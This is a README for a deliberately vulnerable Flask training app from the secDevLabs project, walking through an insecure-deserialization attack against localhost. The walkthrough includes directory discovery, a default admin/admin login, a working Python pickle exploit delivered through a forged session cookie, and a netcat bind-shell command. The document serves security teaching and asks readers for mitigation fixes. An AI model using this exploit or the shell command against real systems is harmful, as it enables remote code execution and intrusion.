 # Amarelo Designs

<p align="center">
    <img src="images/Amarelo-Designs.png"/>
</p>

This is a simple web application built with Flask that contains an example of an Insecure Deserialization vulnerability and, its main goal is to describe how a malicious user could exploit a vulnerability, intentionally installed on Amarelo Designs from secDevLabs, to obtain blind remote code execution.

## Index

- [Definition](#what-is-insecure-deserialization)
- [Setup](#setup)
- [Attack narrative](#attack-narrative)
- [Objectives](#secure-this-app)
- [Solutions](#pr-solutions)
- [Contributing](#contributing)

## What is Insecure Deserialization?

Serialization is the process of translating data structures or object state, into a format that can be stored or transmitted and reconstructed later. Insecure deserialization often leads to remote code execution. Even if deserialization flaws do not result in remote code execution, they can be used to perform attacks, including replay attacks, injection attacks, and privilege escalation attacks.

The main goal of this app is to discuss how **Insecure Deserialization** vulnerabilities can be exploited and to encourage developers to send secDevLabs Pull Requests on how they would mitigate these flaws.

## Setup

To start this intentionally **insecure application**, you will need [Docker][Docker Install] and [Docker Compose][Docker Compose Install]. After forking [secDevLabs](https://github.com/globocom/secDevLabs), you must type the following commands to start:

```sh
cd secDevLabs/owasp-top10-2017-apps/a8/amarelo-designs
```

```sh
make install
```

Then simply visit [localhost:5000][App] ! 😆

## Get to know the app 🎨

To properly understand how this application works, you can follow these simple steps:

- Visit the homepage!
- Have a look at the portfolio

## Attack narrative

Now that you know the purpose of this app, what could go wrong? The following section describes how an attacker could identify and eventually find sensitive information about the app or its users. We encourage you to follow these steps and try to reproduce them on your own to better understand the attack vector! 😜

### 👀

#### Use of an insecure deserialization function allows for remote code execution

It's possible to reach the server's web application from the HTTP port 5000, as shown by the image below:

<img src="images/attack1.png" align="center"/>

Making use of the [Dirb] tool to search for webpages and a common directories [wordlist], we were able to find `/user`, `/admin` and `/console`, as shown by the picture below: (If you want to install Dirb for Mac OS, be sure to click [here][4])

```sh
$ dirb http://localhost:5000 ./../../../docs/common.txt
```

<p align="center">
    <img src="images/attack2.png"/>
</p>

When accessed, the `/admin` page exposes an authentication screen, as depicted by the image:

<p align="center">
    <img src="images/attack3.png"/>
</p>

### 🔥
 
A quick test utilizing `admin` as the credentials for the `Username` and `Password` fields, gives us acess to an Admin Dashboard, as shown below:

<img src="images/attack4.png" align="center"/>

Now, using [Burp Suite] as proxy to intercept the login request, we can see that the app returns a session cookie, `sessionId`, as depicted below:

<img src="images/attack5.png" align="center"/>

After decoding the cookie, which is in base64, the following structure was found:

<img src="images/attack6.png" align="center"/>

The structure found is very similar to the ones created with the [Pickle] function. We can be certain of that by having a look at the app's [code][3]. The hint is now confirmed, the app uses Pickle, as we can see from the image below:


<img src="images/attack7.png" align="center"/>

If an attacker knew that the app uses `Pickle` as the serialization method, he/she could create a malicious cookie to take advantage of it and execute code remotely. An example of an exploit (serializaPickle.py) in Python 3 that could produce this cookie could be:

```python
import pickle
import os
import base64
import sys
import requests

cmd = str(sys.argv[1])
url = str(sys.argv[2])


class Exploit(object):
    def __reduce__(self):
        return (os.system, (cmd, ))


pickle_result = pickle.dumps(Exploit())

result = str(base64.b64encode(pickle_result), "utf-8")

print(result)
print(cmd)
print(url)

cookie = {'sessionId': result}

print(cookie)

r = requests.get(url, cookies=cookie)
```

To be certain that the app is exploitable, we will send a sleep command to make the app unresponsive for 10 seconds. If the app takes 10 seconds to return our request, then it's confirmed, the app is exploitable. As we can see from the image below, the app takes some time to return our request, thus confirming that it is exploitable and confirming the remote code execution:

```sh
$ python3 serializaPickle.py "sleep 10" http://localhost:5000/user
```

<img src="images/attack9.png" align="center"/>

To show how an attacker could have access to the server through an RCE, we will use the code depicted on the image below to create a bind shell on the server's 9051 port.

```sh
$ python3 serializaPickle.py "nc -lvp 9051 -e /bin/sh" http://localhost:5000/user
```

<img src="images/attack10.png" align="center"/>

The code used above creates a bind shell on the server's port 9051, which is then listening for incoming connections. After that, the attacker can connect to that port using a simple [netcat] command, as shown below:

```sh
$ nc localhost 9051
```

<p align="center">
    <img src="images/attack11.png"/>
</p>

## Secure this app

How would you mitigate this vulnerability? After your changes, an attacker should not be able to:

* Execute code remotely through a serialization vulnerability

## PR solutions

[Spoiler alert 🚨] To understand how this vulnerability can be mitigated, check out [these pull requests](https://github.com/globocom/secDevLabs/pulls?q=is%3Apr+label%3A%22mitigation+solution+%F0%9F%94%92%22+label%3A%22Amarelo+Designs%22)!

## Contributing

We encourage you to contribute to SecDevLabs! Please check out the [Contributing to SecDevLabs](../../../docs/CONTRIBUTING.md) section for guidelines on how to proceed! 🎉

[Docker Install]:  https://docs.docker.com/install/
[Docker Compose Install]: https://docs.docker.com/compose/install/
[App]: http://localhost:5000
[secDevLabs]: https://github.com/globocom/secDevLabs
[2]: https://github.com/globocom/secDevLabs/tree/master/owasp-top10-2017-apps/a8/amarelo-designs
[Dirb]: https://tools.kali.org/web-applications/dirb
[Burp Suite]: https://en.wikipedia.org/wiki/Burp_suite
[3]: https://github.com/globocom/secDevLabs/blob/master/owasp-top10-2017-apps/a8/amarelo-designs/app/app.py
[Pickle]: https://docs.python.org/2/library/pickle.html
[netcat]: https://en.wikipedia.org/wiki/Netcat
[4]: https://github.com/globocom/secDevLabs/blob/master/docs/Dirb.md
[wordlist]: https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/common.txt